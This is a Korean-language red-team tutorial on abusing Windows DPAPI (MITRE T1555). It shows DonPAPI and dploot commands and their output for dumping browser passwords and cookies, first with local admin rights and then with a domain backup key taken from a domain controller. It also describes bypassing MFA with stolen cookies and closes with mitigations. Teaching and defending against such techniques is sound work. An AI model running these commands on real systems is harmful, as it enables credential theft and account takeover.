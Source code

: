 ```yaml
---
description: T1555 -  Credentials from Password Stores
---
```


# DPAPI

## 개념

DPAPI는 운영체제 레벨에서의 암호화를 쉽게 진행할 수 있도록 Win32API를 제공해주는 윈도우 API다. 윈도우에서 실행되는 소프트웨어를 만들 때 대칭/비대칭 암호화를 사용해야 하는 경우는 많다. 이때 개발자들이 안전하고 편리하게 암호화를 진행할 수 있도록 도와주는 API 함수들의 집합이 DPAPI다. 뿐만 아니라 DPAPI 마스터 키 (Master Key)를 통해 대칭 키를 안전하게 암호화하거나 비대칭 키를 안전하게 생성하고 보관할 수 있도록 키 관리 (Key Management)에 사용되기도 한다.

간단하게 정리하자면 개발자의 입장에서 암호화는 워낙 복잡하고 안전하게 구현하기 어려우니, 윈도우 운영체제에다가 암호화와 키 관리를 DPAPI를 통해 아웃소싱 한다 라고 생각하면 된다.

DPAPI 가 사용된 데이터이기 때문에 DPAPI 비밀 정보 (DPAPI Secrets) 라고도 불린다.

**DPAPI Secrets:**

* 인터넷 브라우저에 저장되는 계정 정보와 쿠키 정보
* 이메일 클라이언트 (Outlook, thunderbird) 등에서 사용되는 계정 정보
* 공유 폴더와 자원들을 접근할 때 사용되는 계정 정보
* RDP 등, 원격 호스트들을 접근할 때 사용되는 계정 정보
* 윈도우 자체내에서 제공하는 비밀번호 금고 (Credential Vault) 등에 사용되는 암호화 키
* Encrypting File System 및 이메일 s-MIME, ADCS 유저 인증서 (certificate) 등의 암호화

등, 사실상 소수의 비밀번호 매니저 프로그램 (1Password, BitWarden, LastPass, 등) 을 제외하고 운영체제 내에서 암호화된 데이터나 암호화에 사용되는 대칭/비대칭 키(중 private key)를 다시 암호화 하는데 DPAPI가 사용되고 있다.

DPAPI Master Key (마스터 키)는 대칭/비대칭 키 관리나 이런 키들을 다시 한 번 암호화하기 위해 사용되는 키다. 말 그대로 마스터 키라고 보면 된다. 이 마스터 키는 로컬 관리자 권한의 유저들의 파일 시스템 경로 `C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>`에 저장된다. 전반적인 머신의 마스터 키는 머신 계정 비밀번호로부터 도출되며, SYSTEM 계정의 레지스트리 경로에 저장된다.

### 악용

DPAPI 마스터 키와 DPAPI 비밀 정보들은 대부분 Post-Exploitation 단계에서 많이 사용된다. 예를 들어 특정 호스트를 장악한 뒤 DPAPI 비밀 정보들을 털어봤을 때, 다른 호스트와 관련된 RDP/SSH 계정 정보를 탈취한 뒤, 다른 머신들로 횡적이동을 시도할 수 있다. 혹은, 브라우저안에 저장된 비밀번호들을 모두 털어 해당 유저가 사용하던 다양한 SaaS나 웹 서버들로 이동을 할 수도 있다. MFA가 있다고 하더라도 브라우저 내의 쿠키 정보까지 모두 가져올 수 있기 때문에 Pass-the-Cookie 를 통해 MFA를 우회하는 경우도 많이 있다.

예를 들어 특정 시스템 어드민 호스트를 장악한 뒤, 해당 유저가 사용하고 있었던 회사 내 Ansible Tower 데브옵스 웹 서버 계정 정보를 DPAPI 브라우저 계정 정보를 통해 털어온다. 계정 정보를 넣어보니 MFA가 가로막았지만, 브라우저 쿠키 정보를 이용해 해당 유저가 사용하고 있었던 6시간짜리 세션에 들어갈 수 있었다. 그 뒤, Ansible Tower의 Ansible 플레이북을 수정해 악성코드를 심은 뒤, 해당 플레이북을 실행해 모든 회사 내 호스트들에 악성코드를 배포한다... 라는 내부 공급망 공격을 실행할 수도 있을 것이다.

실습은 dploot 와 DonPAPI 툴을 이용해 진행한다.

### 실습 1 - 로컬 관리자 권한

특정 호스트에 로컬 관리자 권한을 획득했다면, SAM, LSA, LSASS 말고 해당 유저의 DPAPI 마스터 키를 빼내와 DPAPI 비밀 정보들을 확인할 수 있다.

```
python3 DonPAPI.py domain.com/user:pass@target 

python3 /opt/DonPAPI/DonPAPI.py choi.local/Administrator:'Password123!'@192.168.40.151 --no_recent --no_vnc --no_remoteops --no_sysadmins

INFO [192.168.40.151] [+] Gathering Wifi Keys
INFO [192.168.40.151] [+] Gathering Vaults
INFO [192.168.40.151] [+] Gathering Chrome Secrets 
INFO [192.168.40.151] [+]  [Chrome Password]  for  [  :  ]
INFO [192.168.40.151] [+]  [Chrome Password]  for https://nid.naver.com/nidlogin.login [ choisecurity : None ]
INFO [192.168.40.151] [+]  [Chrome Password]  for https://github.com/session [ choisecurity : None ]
INFO [192.168.40.151] [+]  [Firefox Password]  for https://accounts.kakao.com [ choisecurity@kakao.com : password ]
```

로컬 관리자 권한을 통해 DPAPI 마스터 키를 획득한다면 해당 유저의 비밀은 가져올 수 있다. 그러나, 해당 호스트를 사용하고 있던 다른 유저들의 비밀은 모두 빼낼 수 없다. 위의 예시의 경우, 해당 호스트를 사용하고 있던 다른 유저의 구글 크롬 브라우저 계정 비밀번호는 유저 이름은 빼왔지만, 비밀번호는 빼내오지 못한 것을 볼 수 있다.

하지만 해당 유저 (Administrator) 가 저장해 놨던 `accounts.kakao.com` 의 `choisecurity@kakao.com:password` 는 빼내온 것을 볼 수 있다.

### 실습 2 - 도메인 장악 후 Post Exploitation

도메인을 장악했다면 도메인/엔터프라이즈 관리자 권한으로 도메인 컨트롤러 서버로부터 도메인 백업 키 (Domain Backup Key)를 획득할 수 있게 된다. 이 도메인 백업 키는 모든 호스트의 모든 유저들의 DPAPI 마스터 키를 복호화 하는데 사용된다. 즉, 도메인 장악 권한을 획득했다면 도메인 내 모든 유저들의 DPAPI 비밀 정보를 획득할 수 있게 된다.

앞서 실습 #1번과는 다르게 모든 유저의 비밀을, 모든 호스트로부터 다 빼내올 수 있게 된다.

먼저 도메인 백업 키를 확보한다

```
dploot backupkey -d domain -u user -p pass <DC-IP> -quiet 

└─# dploot backupkey -d choi.local -u Administrator -p 'Password123!' 192.168.40.150 -quiet                                              
[-] Exporting domain backupkey to file key.pvk
```

확보한 백업 키를 이용해 DonpAPI, Dploot 등의 툴에다가 사용한다

```
python3 DonPAPI.py domain.com/user:pass@target -pvk <key.pvk> 

└─# python3 /opt/DonPAPI/DonPAPI.py choi.local/Administrator:'Password123!'@192.168.40.151 -pvk key.pvk --no_recent --no_vnc --no_remoteops --no_sysadmins

INFO [192.168.40.151] [+]  [Chrome Password]  for https://nid.naver.com/nidlogin.login [ choisecurity : password ]
INFO [192.168.40.151] [+]  [Chrome Password]  for https://github.com/session [ choisecurity : password ]
INFO [192.168.40.151] [+]  [Mozilla Cookie]  for .tiara.kakao.com [ UUID:b6uHID9SBYffBsIAXgnT4zO98eZA13fonWIQSfItYa8yxWlG.JOkOg00 ]  expire time: Mar 16 2033 16:02:38
INFO [192.168.40.151] [+]  [Firefox Password]  for https://accounts.kakao.com [ choisecurity@kakao.com : password ]
```

이번에는 도메인 백업 키를 이용해 DPAPI 비밀 정보를 가져왔기 때문에 `192.168.40.151` 호스트의 모든 유저들이 저장해 놨던 브라우저 비밀번호 및 쿠키까지 모두 다 빼내온 것을 볼 수 있다.

### 대응 방안

DPAPI 자체를 막을 수 있는 방안은 없다. 윈도우 운영체제 내에 기본적으로 내제된 API 집합이기 때문이다.

단, 엔드유저로서 외부 공격자들이 DPAPI 비밀 정보를 빼내가는 것을 최소화할 수는 있다.

1. 브라우저 내의 비밀번호 관리자를 사용하지 말고, 써드파티 비밀번호 매니저를 사용한다.
2. 파일시스템 내의 평문 비밀번호를 저장하지 않는다.
3. 기본 윈도우 계정 매니저 (Windows Credential Manager)를 비활성화 시킨다 (레지스트리/GPO).

* Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Network Access: Do not allow storage of passswords and credentials for network authentication&#x20;

시스템 어드민으로서는 DPAPI 활동에 대해서 자세한 탐지를 실행한다. 이에 대해서는 아래의 레퍼런스를 참고한다.

* https://blog.sygnia.co/the-downfall-of-dpapis-top-secret-weapon

### 레퍼런스

* https://blog.harmj0y.net/redteaming/offensive-encrypted-data-storage-dpapi-edition/
* https://blog.harmj0y.net/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/
* https://blog.sygnia.co/the-downfall-of-dpapis-top-secret-weapon
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords
* https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++
* https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-dpapi-activity



